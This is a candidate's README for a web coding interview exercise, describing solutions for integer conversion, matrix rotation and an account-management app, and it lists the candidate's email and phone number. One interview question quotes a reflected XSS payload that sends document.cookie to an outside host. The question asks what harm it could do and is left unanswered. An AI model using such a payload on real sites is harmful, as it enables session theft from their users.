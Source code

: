 # Epic Games Programming Exercise taken by Jason R Alexander

This README describes Jason R Alexander's Epic Game Web Coding Test. Answer to your questions, my assumptions on your coding problems,
units test locations and other details are list below.

Contact : sunnysidesounds@gmail.com / 415-690-3590

## Questions 1: Implementation of _integerToString(value, numberBase)_

* Assumptions:
    * Assuming only whole numbers, e.g integers for input value and number base integers (1, 3, 5...)

* Completion Time:
    * 20 minutes app setup, test setup, familiarize myself
    * 1 hours to solve, test, refactor, revise

* Tests:
    * Run tests by `yarn react-scripts test`
    * Location: `src/questions1/Integer.test.js` (unit tests)

## Question 2: Implementation of _clockwiseMatrix(matrixString)_

* Assumptions:
    * Assuming the string representation is patterned after matrix, SIZE: N * M ( e.g [1, 2, 3...] [4, 5, 6...] )
        * With that said, this matrix should be able to be parsed with a JSON parser, (after cleaning and formatting the initial string.)
        * We always have equal opening and closing brackets. If not a `An error has occurred` message is outputted.
    * The sample test input #5 [7, 8 , 9], returns a blank (empty) string per the exercise document in the sample output.
        * So anything less than 3 elements returns an empty string. If I removed this constraint it would return [7, 8 , 9]

* Completion Time:
    * 2.5 hrs, initially solved, refactored, tests, revise

* Tests:
    * Run tests by `yarn react-scripts test`
    * Location: `src/questions2/MatrixRotator.test.js` (unit tests)

* Logging:
    * In the MatrixRotator.js line 36 we are console logging this error. A TODO, would to implement some kind of logging library, monitoring, on this error.
        * Maybe client-to-server logging mechanism / library

* Question 2a:
    * Question: Given your solution, how would you verify the correctness of your answers?
    * Answer : I've verified my solutions by doing the following testting
        * Initial tests with the provided input/output test data
        * Tests for the string cleaning and formatting.
        * Matrix string to 2d-array formatting
        * Matrix generation


## Question 3: Simple Account Mangement Service

* Minimum Requirements:
    * Must have user list view
    * Must have user new form
    * Must be able to create, read, update and delete

* Enchanced Feature Requirements:
    * Improved User Experience and front-end design. Created modals for new, update and delete. This fits with a single page app design.
    * Full service implementation, in-memory is replaced with Mysql Database, if environment variable USE_MYSQL_DB is set to true.
        * Setup on mysql database:
            1. Set environment variables: `../src/question3/scripts/setup_mysql.sh`
            2. Import the schema and data: `mysql -u root -p account_manager < /src/question2/sql/schema_test_data_setup.sql`
                * TODO: To setup migration functionality with Knexjs, this would remove step 2
    * Add searching/filtering functionality to the accounts, the list view have filter by methods for name, email, birthday and balance

* Assumptions:
    * name and email are required, birthday is not, balance does not?

* Completion Time:
    * 4 hrs to setup endpoint call, display users in list view and stubbed new, edit and delete onClick events.
    * 3 hours to add enchanged features. Full service implementation, filtering and UI design improvements.

* Tests:
    * Run tests by `yarn react-scripts test`
    * Location: `src/questions3/Accounts/Accounts.test.js` (integration endpoint tests)
    * Location: `src/questions3/Common/Compare.test.js` (unit tests)


## Question 4:
* Question: What harm could result from the following? `http://www.example.com/search?q=<script>object.src="http://otherexample.com/code?data="+document.cookie</script>`
* Answer:

## Question 5:
* Question: Explain what security measures need to be taken into consideration for web applications.
* Answer:

## Question 6:
* Question: Please provide us with a link(s) to your portfolio and/or some code samples of your work.
* Answer:



## Things I had to change due to errors: (TEMP)


* Package.json updates:

- Update to "node-sass": "^4.14.1", because I was using node v14.13.0 ( was v14.11.0
- Had to add "fsevents": "^2.1.3", because `yarn react-scripts test` wouldn't run



* Fixed errors I came across doing question 1:


[Error: Invariant failed: You should not use <Switch> outside a <Router>]

/*
 * Warning: Failed prop type: You provided a value prop to a form
 * field without an onChange handler. This will render a read-only
 * field. If the field should be mutable use defaultValue.
 * Otherwise, set either onChange or readOnly.
 *  */



 ### Questions
 - What are using using bind function or arrow functions?
 - Write a script about environment variables.